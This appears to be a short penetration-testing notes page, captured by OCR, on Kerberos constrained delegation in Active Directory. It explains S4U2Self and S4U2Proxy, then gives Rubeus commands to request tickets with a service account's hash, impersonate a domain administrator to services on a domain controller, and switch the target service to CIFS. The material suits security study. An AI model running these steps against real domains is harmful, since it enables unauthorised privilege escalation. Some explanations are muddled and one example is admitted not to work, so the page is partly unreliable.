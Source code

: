 # Constrained Delegation

**How it works**

Unlike unconstrained delegation, constrained delegation limits the scope of delegation. Microsoft released 2 extensions to do this, `S4U2Self` and `S4U2Proxy`. These specify the SPNs its allowed constrained delegation against

**S4U2Self**

S4U2Self requests a TGS for a user for frontend service. S4U2Self can do this without the hash of the user meaning you can request a service ticket to your service for any user in the domain.

**S4U2Proxy**

S4U2Proxy requests a TGS for the user for backend service on behalf of a user. This extension allows the service to request a ticket to any service given as SPNs in the allowed to delegate field

**Exploit**

You need the password hash of the service account so dump the hash or generate it with rubeus

```
rubeus hash /password:password
```

Next use rubeus to generate a TGT for the service account

```
rubeus asktgt /user:iissvc /domain:prod.corp.com /rc4:(hash)
```

Now we can use the s4u extensions

```
rubeus s4u /ticket:(ticket) /impersonateuser:administrator /msdsspn:mssqlsvc/dc01.prod.corp.com:1433 /ptt
```

this allows you access to the mssqlsvc on dc01 but the ticket you just got didnt have the service encrypted so you can access a different service on the same host . This will only work if the SPN doesnt have the port number so unfortunately this example wont work

```
rubeus s4u /ticket:(ticket) /impersonateuser:administrator /msdsspn:mssqlsvc/dc01.prod.corp.com:1433 /altservice:CIFS /ptt
```
